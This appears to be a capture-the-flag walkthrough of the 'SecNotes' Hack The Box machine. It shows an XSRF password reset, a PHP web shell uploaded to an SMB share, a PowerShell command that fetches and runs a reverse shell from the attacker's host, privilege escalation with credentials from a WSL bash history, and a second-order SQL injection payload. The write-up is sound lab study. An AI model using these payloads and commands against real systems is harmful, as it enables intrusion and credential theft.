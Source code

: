 # Summary

SecNotes was a medium difficulty Windows box. Being an earlier HTB box it wasn't as involved as some of the more recent medium boxes. The initial foothold involved getting finding credentials to access a share over SMB which can be done via an XSRF or a second order SQL injection. The share is the webroot of a development site into which we can write a PHP scripto get RCE. The privilege escalation involved finding credentials in a history file in Windows Subsystem for Linux from which we can psexec into the box as the administrator. I'll also look into the artifacts psexec leaves behind.

<details open>
<summary></summary>
  
* [External Enumeration](#external-enumeration)
* [Cross Site Request Forgery](#xsrf)
* [Initial Access](#initial-access)
* [Privilege Escalation](#privilege-escalation)
* [Second Order SQLI](#second-order-sqli)

</details>

## External Enumeration

I'll first run a port scan against the box using my alias `fscan`

<img src="images/fscan.png">

We see ports 80,445,8808 are open. Ports 80 and 8808 are running `Microsoft IIS httpd 10.0` though nmap shows a redirect to `login.php` on port 80.

Visiting the website shows a login form with an option to signup

<img src="images/secnoteslogin.png">

I'll signup with the credentials `max:password`

<img src="images/signup.png">

Logging in presents us with the option to create a new note, change our password, signout or contact someone on the backend of the site. The second and last options present us with some opportunities. Perhaps we could change the password of another user then access their notes, or perform an attack against someone checking the contact messages, or both!

<img src="images/home.png">

The contact form sends a message to `tyler@secnotes.htb`. If tyler is clicking on links we may be able to perform XSS/XSRF

<img src="images/contact.png">

First I'll check the logic behind changing the password. I'll change my password to `password1` and intercept the request in burpsuite

<img src="images/changepwdpost.png">

Note that the current password is not included anywhere in the request, and there's no XSRF token generated prior to making the request. I'll send it over to repeater and change the request method to a `GET` and submit the request.

<img src="images/changepwdget.png">

We get a 200 OK after a 302 redirect. I'll logout and try logging in with `max:password1`

<img src="images/home.png">

Changing the password worked with a GET request. What I'll do now is to send tyler the URL I submitted to the server to change my password via the contact form, and if he visits it, his password will change provided his browser has cached an authenticated session to the site.

## XSRF

<img src="images/tyler.png">

I'll submit the link `http://10.10.10.97/change_pass.php?password=password2&confirm_password=password2&submit=submit` in the contact form follwed by `http://10.10.14.31/done` and start a netcat listener on port 80, so if I get a request through for `/done` I'll know Tyler visited the malicious link.

<img src="images/done.png">

On my listener I get a connection and I can now login with `tyler:password` and access his notes.

<img src="images/pwreset.png">

We see a note for `new site`. This is likely referring to the site on port 8808. It appears to contains credentials for the share `\\secnotes.htb\new-site`. I'll check access with `smbmap`

<img src="images/new-site.png">

We have write access over the `new-site` share. Visiting the share with `smbclient` shows we're in the webroot of the site on port 8808.

<img src="images/iis.png">

## Initial Access

I'll create `shell.php` containing
```
<?php system($_REQUEST['cmd']); ?>
```
and upload it to the share. Visiting the URL `http://10.10.10.97:8808/shell.php?cmd=whoami` shows we have code execution on the server.

<img src="images/rce.png">

From here I'll write a powershell reverse shell in `shell.ps1` to call back to port 9001 on my box and host it on a python webserver. I'll start a netcat listener on port 9001, then I'll visit the URL 

`http://10.10.10.97:8808/shell.php?cmd=powershell iex(iwr -uri http://10.10.14.31/shell.ps1 -usebasicparsing)`

I get a request to my webserver

<img src="images/webserve.png">

followed by a connection on my listener

<img src="images/hit.png">

## Privilege Escalation

Checking out `c:\users\tyler\desktop` we find `user.txt` but also an interesting file named `bash.lnk`. Reading the file we can pick out `bash.exe` in `c:\Windows\System32`. This usually indicates Windows Subsystem for Linux is installed. 

<img src="images/bashlnk.png">

I'll play around with `bash` and see what I can find in the Linux filesystem.

<img src="images/root.png">

We're root inside the Linux filesystem and find a `.bash_history` inside `/root`. Reading this file we find some admin credentials used over smb.

<img src="images/bashhist.png">

With these credentials I could mount `c$` on localhost as admin with `net use \\127.0.0.1\c$ /user:administrator u6!4ZwgwOM#^OBf#Nwnh` or I could use powershell's `Enter-PSSession` or I could use the credentials with impacket's `psexec` to get a shell. I'll /opt for psexec.

<img src="images/system32.png">

I get a shell returned as `NT AUTHORITY\SYSTEM`. From here I can read `root.txt` in `c:\users\administrator\desktop`

## Second Order SQLI

An SQLi occurs when user input is used directly in an SQL query in an unsafe way. A second order SQLI is when user input is stored in a database then retireved and used as part of a later query in an unsafe way. Here, the register function uses prepared statements to remove user input from the query itself, as seen below. 

<img src="images/registersqli.png">

However when the notes are retrieved to be displayed on the home page, the username is directly concatenated into a SQL query. Therefore we can register a username which does our bidding when called in the query in `home.php`.

<img src="images/getnotes.png">

We can see that if we register the username `' or 1='1`, the above query becomes
```SELECT id, title, note, created_at FROM posts WHERE username='' or 1='1'```
Since mysql interprets `1='1'` as true, `'' or 1='1'` also evaluates to true, so we retrieve the notes for every user.

<img src="images/allnotes.png">


